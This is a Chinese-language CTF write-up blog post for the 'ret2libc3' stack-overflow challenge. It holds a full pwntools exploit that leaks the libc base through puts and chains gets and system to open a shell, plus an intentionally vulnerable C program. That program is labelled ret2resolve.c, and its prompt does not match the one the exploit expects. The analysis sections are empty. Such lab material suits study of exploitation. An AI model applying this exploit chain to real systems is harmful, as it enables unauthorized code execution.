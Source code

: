 ```yaml
---
layout:     post
title:      ret2libc3
subtitle:   解题思路
date:       2018-07-11
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida





## 分析过程





## 解题思路





![image-20180912174509270](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-12-094638.png)



当第一次send返回的时候，栈已经发生了变化，第二次栈溢出点为104位之后

```
payload = flat(['A' * 104, gets_addr, pop_ebx_ret, buf, system_addr, 0xdeadbeef, buf])
```



![image-20180912174520022](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-12-094645.png)





exp.py

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
    sh = remote('127.0.0.1', 4000)
else:
    sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
libc = ELF('./libc.so')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
gets_addr = ret2libc3.symbols['gets']


payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)
libc_start_main_addr = u32(sh.recv()[0:4])

# readelf -s libc.so | grep 'start_main'
libc_start_main = libc.symbols['__libc_start_main'] 
libc_system = libc.symbols['system']
libc_base = libc_start_main_addr - libc_start_main
system_addr = libc_base + libc_system

#raw_input('#')
print "get shell"
gets_addr = ret2libc3.symbols['gets']
pop_ebx_ret = 0x0804841d
buf = 0x0804b000 - 0x100 # cat /proc/`pidof ret2libc3`/maps

#libc_binsh_addr = 0x15b82b # strings -a -tx libc.so | grep '/bin/sh'
#binsh_addr = libc_binsh_addr + libc_base
#payload = flat(['a'*104, system_addr, 0xdeadbeef, binsh_addr])

payload = flat(['A' * 104, gets_addr, pop_ebx_ret, buf, system_addr, 0xdeadbeef, buf])
sh.sendline(payload)

sh.interactive()
```



ret2resolve.c

```c
#include <unistd.h>

#include <stdio.h>

#include <string.h>


void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```



## 总结

本次实验，难点在于leak libc base address，以及第一次send之后返回main函数，第二次利用溢出的溢出位置的寻找
